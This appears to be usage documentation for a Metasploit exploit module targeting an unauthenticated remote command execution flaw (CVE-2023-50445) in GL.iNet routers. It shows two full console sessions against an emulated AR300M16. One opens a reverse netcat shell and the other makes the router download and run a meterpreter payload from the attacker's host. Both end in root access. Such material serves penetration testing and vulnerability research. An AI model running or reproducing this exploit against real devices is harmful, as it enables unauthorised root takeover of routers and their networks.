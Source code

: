 ## Options
### SID
This is the SessionID (`SID`) which you need for authentication.
The module will exploit and grab the `SID` autmatically, but you can also provide it manually by using this option.

## Scenarios
###  FirmAE GL.iNet AR300M16 Router Emulation Unix Command - cmd/unix/reverse_netcat
```shell
msf exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > set target 0
target => 0
msf exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > exploit

[*] Started reverse TCP handler on 192.168.8.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.8.1:80 can be exploited.
[!] The service is running, but could not be validated. Product info: |4.3.7|n/a
[*] SID: NsPHdkXtENoaotxVZWLqJorU52O7J0OI
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 8 opened (192.168.8.2:4444 -> 192.168.8.1:53167) at 2024-01-03 11:12:18 +0000

pwd
/
id
uid=0(root) gid=0(root) groups=0(root),65533(nonevpn)
uname -a
Linux GL- 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
exit
```
### FirmAE GL.iNet AR300M16 Router Emulation Linux Dropper - linux/mipsbe/meterpreter_reverse_tcp
```shell
msf exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > set target 1
target => 1
msf exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > exploit

[*] Started reverse TCP handler on 192.168.8.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.8.1:80 can be exploited.
[!] The service is running, but could not be validated. Product info: |4.3.7|n/a
[*] SID: Gs2KPnIsIQQUzHQkEBVN8JOcq5nV008e
[*] Executing Linux Dropper for linux/mipsbe/meterpreter_reverse_tcp
[*] Using URL: http://192.168.8.2:1981/OrfVHM15cua0w
[*] Client 192.168.8.1 (curl/7.88.1) requested /OrfVHM15cua0w
[*] Sending payload to 192.168.8.1 (curl/7.88.1)
[*] Meterpreter session 9 opened (192.168.8.2:4444 -> 192.168.8.1:48511) at 2024-01-03 08:30:52 +0000
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.8.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
```